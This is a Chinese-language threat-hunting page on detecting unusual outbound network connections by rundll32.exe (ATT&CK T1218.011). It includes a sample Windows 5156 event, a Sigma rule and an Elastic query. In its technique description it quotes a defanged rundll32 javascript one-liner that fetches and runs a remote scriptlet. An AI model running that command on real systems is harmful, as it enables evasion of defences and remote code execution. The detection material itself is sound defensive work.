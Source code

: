 # T1218-011-win-通过Rundll32的异常网络链接

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

windows 2003默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

win7默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需自行配置）

## 测试复现

识别rundll32.exe进行出站网络连接的异常行为。这表明可能存在攻击活动，并可能认识恶意DLL。

## 测试留痕

可参考：[T1218-011-win-基于白名单Rundll32.exe执行payload](https://github.com/12306Bro/Threathunting-book/blob/master/%E6%89%A7%E8%A1%8C/T1218-011-win-%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Rundll32.exe%E6%89%A7%E8%A1%8Cpayload.md)

Examples of 5156

```yml
The Windows Filtering Platform has allowed a connection.

Application Information:

  Process ID: 1752
  Application Name: \device\harddiskvolume1\windows\system32\dns.exe

Network Information:

  Direction: Inbound
  Source Address: 10.45.45.103
  Source Port: 53
  Destination Address: 10.45.45.103
  Destination Port: 50146
  Protocol: 17

Filter Information:

  Filter Run-Time ID: 5
  Layer Name: Receive/Accept
  Layer Run-Time ID: 44
```

## 检测规则/思路

### sigma

```yml
title: 检测通过Rundll32的异常网络链接行为
description: 通过windows日志来检测通过Rundll32的异常网络链接行为
status: experimental
references:
    - https://www.elastic.co/guide/en/siem/guide/current/unusual-network-connection-via-rundll32.html
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.T1085
    - attack.TA0002
date: 2020/12/2
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        EventID: 5156
        Process.name: 'rundll32.exe' #Application Name
    selection2:
        Destination Address:
                        - 10.0.0.0/8
                        - 172.16.0.0/12 
                        - 192.168.0.0/16
    condition: selection1 and not selection2
level: low
```

### Elastic rule query

```yml
process.name:rundll32.exe and event.action:"Network connection
detected (rule: NetworkConnect)" and not destination.ip:(10.0.0.0/8 or
172.16.0.0/12 or 192.168.0.0/16 or 127.0.0.0/8)
```

### 建议

通过进程监控来检测和分析rundll32.exe的执行和参数。比较rundll32.exe的近期调用与历史已知合法参数及已加载动态链接库来确定是否有异常和潜在的攻击活动。在rundll32.exe调用之前和之后使用的命令参数也可用于确定正在加载的动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-011

<https://attack.mitre.org/techniques/T1218/011/>

通过Rundll32的异常网络链接

<https://www.elastic.co/guide/en/siem/guide/current/unusual-network-connection-via-rundll32.html>
